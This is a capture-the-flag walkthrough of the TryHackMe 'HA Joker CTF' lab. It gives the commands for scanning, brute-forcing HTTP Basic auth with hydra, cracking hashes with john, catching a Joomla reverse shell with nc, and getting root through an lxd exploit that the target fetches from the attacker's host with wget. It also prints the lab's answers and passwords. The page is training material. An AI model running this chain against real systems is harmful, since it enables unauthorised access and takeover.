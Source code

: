 # HA Joker CTF

{% embed url="https://tryhackme.com/room/jokerctf" %}
https://tryhackme.com/room/jokerctf
{% endembed %}

![](<../../.gitbook/assets/HA Joker CTF.png>)

## Task 1 HA Joker CTF

#### Enumerate services on target machine. **** What version of Apache is it? What version of Apache is it?

```bash
rustscan -a 10.10.17.110 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 16-54-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-02 16-55-12.png>)

{% hint style="success" %}
`2.4.29`
{% endhint %}

#### What port on this machine not need to be authenticated by user and password?

{% hint style="success" %}
`80`
{% endhint %}

#### There is a file on this port that seems to be secret, what is it?

```bash
gobuster dir -u http://10.10.17.110/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -x txt,bak,old,php -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-11-47.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-12-52.png>)

{% hint style="success" %}
`secret.txt`
{% endhint %}

#### There is another file which reveals information of the backend, what is it?

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-17-40.png>)

{% hint style="success" %}
`phpinfo.php`
{% endhint %}

#### What port on this machine need to be authenticated by Basic Authentication Mechanism?

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-18-01.png>)

{% hint style="success" %}
`8080`
{% endhint %}

#### At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-20-22.png>)

```bash
hydra -l joker -P /usr/share/wordlists/rockyou.txt \
      'http-get://10.10.17.110:8080/' -t64 -I
```

{% hint style="success" %}
`hannah`
{% endhint %}

#### Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

```bash
nikto -h http://10.10.17.110:8080 -id 'joker:hannah'
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-45-10.png>)

{% hint style="success" %}
`/administrator/`
{% endhint %}

#### We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?

{% hint style="success" %}
`backup.zip`
{% endhint %}

#### We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?

```bash
wget --http-user joker --http-password hannah http://10.10.17.110:8080/backup.zip
unzip backup.zip
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-33-20.png>)

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-34-28.png>)

{% hint style="success" %}
`hannah`
{% endhint %}

#### Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user\_table! What is the super duper user?

```bash
unzip backup.zip
cat db/joomladb.sql
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-36-23.png>)

{% hint style="success" %}
`admin`
{% endhint %}

#### Super Duper User! What is the password?

```bash
echo -n '$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-41-53.png>)

{% hint style="success" %}
`abcd1234`
{% endhint %}

#### At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-48-02.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-02 17-58-41.png>)

```bash
nc -nvlp 4444
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 18-18-29.png>)

{% hint style="success" %}
`www-data`
{% endhint %}

#### This user belongs to a group that differs on your own group, What is this group?

{% hint style="success" %}
`lxd`
{% endhint %}

#### Spawn a tty shell.

```bash
python3 -V
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial.

#### **The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory.** Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

```bash
searchsploit lxd
searchsploit -m 46978.sh
cp 46978.sh /var/www/html/lxd.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 18-48-11.png>)

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo bash build-alpine
cp alpine-*.tar.gz /var/www/html/alpine.tar.gz
```

```bash
wget http://10.6.9.176/lxd.sh -P /tmp
wget http://10.6.9.176/alpine.tar.gz -P /tmp
bash /tmp/lxd.sh -f /tmp/alpine.tar.gz
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 18-32-33.png>)

#### What is the name of the file in the /root directory?

```bash
ls -lA /mnt/root/root
cat /mnt/root/root/final.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 18-35-28.png>)

{% hint style="success" %}
final.txt
{% endhint %}

## Reference

{% embed url="https://www.hackingarticles.in/joomla-reverse-shell" %}

{% embed url="https://vk9-sec.com/reverse-shell-on-any-cms" %}

{% embed url="https://www.exploit-db.com/exploits/46978" %}
